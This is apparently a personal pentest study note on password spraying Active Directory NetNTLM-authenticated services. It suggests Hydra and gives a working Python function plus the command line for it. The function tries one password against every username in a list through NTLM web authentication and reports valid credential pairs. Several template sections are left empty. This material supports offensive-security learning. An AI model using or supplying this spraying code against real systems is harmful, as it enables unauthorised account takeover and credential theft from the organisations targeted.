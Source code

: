 Since [[Active Directory]] environments usually detect a lot of authentication attempts, usually password spraying against [[NetNTLM Authenticated Services]] is the best way to proceed.


Description of Topic/Concept/Tool/Technology goes here

# 🖊️ Methods

- You can use [[Hydra]] to assist with the password spray.
- You can use a custom script:

```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

In order to use this you can run it like this:

`python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
`


# 📔 Description

- 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{26-10-2023}} 19:19
🏷️ tags: #activedirectory #enumeration
---

